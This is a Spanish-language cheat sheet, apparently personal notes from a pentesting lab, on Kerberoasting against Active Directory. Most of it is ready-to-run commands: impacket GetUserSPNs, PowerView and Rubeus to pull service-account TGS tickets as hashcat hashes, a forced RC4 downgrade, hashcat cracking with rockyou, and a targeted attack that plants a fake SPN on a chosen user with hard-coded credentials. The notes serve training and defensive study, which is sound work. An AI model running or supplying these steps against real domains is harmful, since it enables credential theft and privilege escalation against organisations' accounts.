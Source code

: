 #kerberoasting
Técnica de escalada de privilegios y movimiento lateral. Se atacan cuentas asociadas a SPN solicitando tickets TGT, para posteriormente crackearlos con hashcat. Cualquier usuario autenticado en el AD puede solictar un ticket TGS.
## Linux
Necesitamos tener credenciales de acceso (texto plano o NTML hash) y una shell en el contexto del usuario de dominio o `SYSTEM` shell
- Listar cuentas SPN - GetUserSPNs.py 
	```bashowe
	impacket-GetUserSPNs -dc-ip $target INLANEFREIGHT.LOCAL/forend
	```
- Solicitar todos los tickets TGS (añadir la flag `-requets` al comando anterior)
	```bash
	GetUserSPNs.py -dc-ip $target INLANEFREIGHT.LOCAL/forend -request -outputfile allTickets
	```
- Solicitar el ticket de un solo servicio (ej: `sqldev`)
	```bash
	GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev
	```

### Windows 
Se podría hacer de forma semi-manual si no funciona ninguna de estas opciones (documentado en notion)
#### Powerview
- Único target
	```powershell
	Import-Module .\PowerView.ps1 Get-DomainUser * -spn | select samaccountname 
	# Supongamos que a partir de aquí seleccionamos como objetivo sqldev 
	Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
	```
- Exportar todos los tickets en csv
	```powershell
	Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
	```
 
#### Rubeus
Tiene alguna opción adicional a las de PowerView
- Obtener información sobre tickts TGS
	```powershell
	.\Rubeus.exe kerberoast /stats
	```
- Extraer todos los tickets TGS
	```powershell
	Rubeus.exe kerberoast /nowrap
	```
- Extraer los tickets de las cuentas más valiosas (`admincount=1`)
	```powershell
	.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
	```
- Extraer spn de un servicio concreto (ej: `sqldev` )
#### Cambiando el formato del hash (downgrading) - hasta Windows Server 2019 
Las cuentas de servicio que tienen encriptación `AES 128/256`, también pueden ser craqueadas, pero el proceso es mucho más lento. (se podría hacer con `hashcat -m 19700`)
- Forzar a generar un ticket con encriptación `RC4 HMAC`
	```powershell
	.\Rubeus.exe kerberoast /tgtdeleg /user:testspn /nowrap
	```
### Craquear offline los tickets - hashcat
```bash
hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt
```

## Kerberoasting dirigido
La idea es tratar de craquear la cuenta de usuario que queramos creando un SPN falso asociado a ese usuario. Para poder realizar un ataque de este tipo necesitamos tener la capacidad de modificar o agregar SPNs en una cuenta de usuario. 
### Requisitos

| Permiso           | Descripción                                                  | Impacto en Kerberoasting Dirigido                     |
| ----------------- | ------------------------------------------------------------ | ----------------------------------------------------- |
| **GenericAll**    | Control total sobre el objeto.                               | Modifica cualquier atributo, incluido SPN.            |
| **GenericWrite**  | Escritura en cualquier atributo del objeto.                  | Permite añadir/modificar SPNs.                        |
| **WriteProperty** | Escritura en atributos específicos (`servicePrincipalName`). | Modifica solo atributos seleccionados.                |
| **WriteDACL**     | Modificación de la DACL para otorgarse permisos adicionales. | Otorga permisos como `GenericWrite` sobre SPN.        |
| **Self**          | Permite modificar ciertos atributos del propio objeto.       | Puede modificar su propio SPN si tiene `Self` en SPN. |
### Ataque 
- Creamos un objeto de tipo `$Cred` con las credenciales de un usuario que tenga permisos para crear un SPN (ej: `damundsen`)
	```powershell
	$pass = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force 
	$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen',$pass )
	```
- Creamos un fake SPN con PowerView para el usuario que queramos comprometer (ej: `adunn`) - `Set-DomainObject`
```powershell
Set-DomainObject -Credential $Cred -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
```
- Obtenemos información sobre el ticket creado con `rubeus`
	```powershell
	.\Rubeus.exe kerberoast /user:adunn /nowrap
	```
- Tratamos de craquear el ticket con `hashcat -m 13100`